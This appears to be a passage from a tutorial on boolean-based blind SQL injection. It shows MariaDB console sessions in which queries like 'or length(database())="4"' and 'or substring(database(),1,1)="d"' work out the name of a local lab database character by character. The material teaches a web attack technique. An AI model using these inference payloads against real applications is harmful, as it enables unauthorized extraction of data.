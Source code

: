 #### 2. Inferential SQL Injections
##### True/False - Boolean Based

  ```
  MariaDB [y]> use dark;
  Database changed
  
  MariaDB [dark]> show tables;
  +----------------+
  | Tables_in_dark |
  +----------------+
  | login          |
  +----------------+
  1 row in set (0.001 sec)
  
  MariaDB [dark]> select * from login;
  +------+---------+----------+-------------+
  | id   | name    | password | country     |
  +------+---------+----------+-------------+
  |    1 | Sherwin | 12345    | Philippines |
  +------+---------+----------+-------------+
  1 row in set (0.000 sec)
  
  # Getting the length of the database
  
  MariaDB [dark]> select * from login where id=2 or length(database())="1";
  Empty set (0.000 sec)
  
  MariaDB [dark]> select * from login where id=2 or length(database())="4";
  +------+---------+----------+-------------+
  | id   | name    | password | country     |
  +------+---------+----------+-------------+
  |    1 | Sherwin | 12345    | Philippines |
  +------+---------+----------+-------------+
  1 row in set (0.000 sec)
  ```

**Getting the name of the database using substring**

```
MariaDB [dark]> select * from login where id=2 or substring(database(),1,1)="a";
Empty set (0.001 sec)

MariaDB [dark]> select * from login where id=2 or substring(database(),1,1)="d";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or substring(database(),2,1)="a";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
1 row in set (0.000 sec)

MariaDB [dark]> select * from login where id=2 or substring(database(),3,1)="r";
+------+---------+----------+-------------+
| id   | name    | password | country     |
+------+---------+----------+-------------+
|    1 | Sherwin | 12345    | Philippines |
+------+---------+----------+-------------+
```